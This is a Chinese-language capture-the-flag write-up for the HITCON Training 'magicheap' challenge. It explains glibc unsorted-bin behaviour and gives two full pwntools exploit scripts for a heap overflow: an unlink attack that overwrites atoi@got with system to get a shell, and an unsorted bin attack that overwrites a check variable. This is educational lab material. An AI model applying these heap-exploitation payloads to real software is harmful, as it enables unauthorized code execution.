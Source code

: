```yaml
---
title: lab14_magicheap
data: 2019-07-23
catagories:
- hitcon_trainning
tags: heap unlink unsortedbin_attack
---
```


<font style='font-size:25px'>Unlink | Unsortedbin_Attack</font>

# unsorted_bin_attack

## unsortedbin

- 一个`chunk`被释放时，当他不属于`fastbin`的范围且不和`top_chunk`相邻，他就会被首先放入`unsortedbin`中。

- `malloc`的时候，如果`fastbin`和`smallbin`里都找不到相应大小的`chunk`，就会去`unsortedbin`里面找。    
    如果大小满足，就会返回相应的`chunk`给用户，不满足，就会将`unsortedbin`中所有的`chunk`放入`smallbin`中。

- 是一个双向链表。   
    - FILO，从链表头部取，放进链表尾部。
    - 取出`chunk`的时候不使用`unlink`的宏。
    ```c
    bck = victim -> bk
    //victim 是当前要取出来的chunk
    unsorted_chunks(av) -> bk = bck 
    bck -> fd = unsorted_chunks(av)
    ```
    
## attack

- 如果控制了`victim`的bk指向`target_addr - 8`,那么`target_addr`就可以被改写成为`unsorted_bin`的地址。

- 无法更改`target_addr`为指定内容，但可以将其覆盖为一个较大的数字。

    - 可以用来更改循环次数
    - 更改判断流程
    - ......

![ctfwiki图](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/figure/unsorted_bin_attack_order.png)

# 漏洞
一个普通的菜单选择题<font style="font-size:10px">堆的专属题型（bushi</font>。    
提供`create`、`edit` & `delete`，但是`edit`里面没有检查长度造成堆溢出。     
流程中提供一个猜数功能，猜中了就可以调用`system`

# 思路
- 一个错误的想法

一开始是想用`double_free`那种思路，把`fastbins`的某一个`bin`的指针指向`got表`。所以一开始还觉得挺简单的，但很快我就想起了被寻找合适位置冒充`chunk`的`size`域支配的恐惧。     

- `unlink`

我发现基本上所有的堆溢出都可以构造出unlink的利用。只要有类似`nodelist`的指针。 

1. 构造`fake_chunk`,注意`size`大于`0x80`。
2. `delete`触发`unlink`，将`heaparray`指向`atoi`的`got`表。
3. 将`atoi@got`的内容改写成为`system@plt`。
4. 发送`/bin/sh\x00`

    **仍旧`glibc2.27`跑不了。**

- `unsorted bin attack`

    - 看了大佬的`wp`才只知道有这个攻击
    - **`glibc2.27`跑不了。**

![反汇编](https://c-ssl.duitang.com/uploads/item/201907/23/20190723155953_uv5xt.png)   
![l33t](https://c-ssl.duitang.com/uploads/item/201907/23/20190723160231_RvVGR.png)     

这里有个判断，如果`magic`是一个大于`0x1305`的数字就会执行`l33t`这个函数。    
使用`unsorted_bin_attack`更改，执行。
1. 分配3个chunk——第三个是用来隔开`top_chunk`。
2. delete(1)
3. 利用堆溢出更改`chunk_1`的bk域为`magic`的地址。
4. 再次分配一个大小相同的`chunk`。

# exp

## unlink

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def create(sz,content):
    sleep(0.2)
    sh.sendlineafter(':','1')
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap:',content)

def edit(idx,sz,content):
    sleep(0.2)
    sh.sendlineafter('choice :','2')
    sh.sendlineafter('Index :',str(idx))
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap :',content)

def delete(idx):
    sh.sendlineafter('choice :','3')
    sh.sendlineafter('Index :',str(idx))

if __name__ == '__main__':
    sh = process('./magicheap')
    elf = ELF('./magicheap')
    libc = elf.libc
    atoi_got = elf.got['atoi']
    system_addr = elf.plt['system']
    heaparray = 0x06020E0

    create(0x90,'aaaa')
    create(0x80,'bbbb')
    create(0x80,'cccc')

    fd = heaparray - 24
    bk = heaparray - 16
    payload = p64(0) + p64(0x90) + p64(fd) + p64(bk) + cyclic(0x70) + p64(0x90) + p64(0x90) 

    pause()
    edit(0,len(payload),payload)
    delete(1)

    payload = cyclic(24) + p64(atoi_got)
    edit(0,len(payload),payload)
    
    payload = p64(system_addr)
    edit(0,len(payload),payload)

    sh.sendlineafter("choice :",'/bin/sh\x00')
    
    sh.interactive()
    sh.close()
```

## UnsortedBinAttack

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def create(sz,content):
    sleep(0.2)
    sh.sendlineafter(':','1')
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap:',content)

def edit(idx,sz,content):
    sleep(0.2)
    sh.sendlineafter('choice :','2')
    sh.sendlineafter('Index :',str(idx))
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap :',content)

def delete(idx):
    sh.sendlineafter('choice :','3')
    sh.sendlineafter('Index :',str(idx))

if __name__ == '__main__':
    sh = process('./magicheap')
    elf = ELF('./magicheap')
    libc = elf.libc

    magic_addr = 0x6020C0

    create(0x10,'aaaa')
    create(0x80,'bbbb')
    create(0x10,'cccc')

    delete(1)
    
    payload = cyclic(0x10) + p64(0) + p64(0x91) + p64(0) + p64(magic_addr - 0x10) 
    edit(0,len(payload),payload)
    
    create(0x80,'dddd')

    sh.sendlineafter('choice :','4869')
    sh.interactive()
    sh.close()
```

# 问题

到底是为什么`glibc2.27`没法跑？

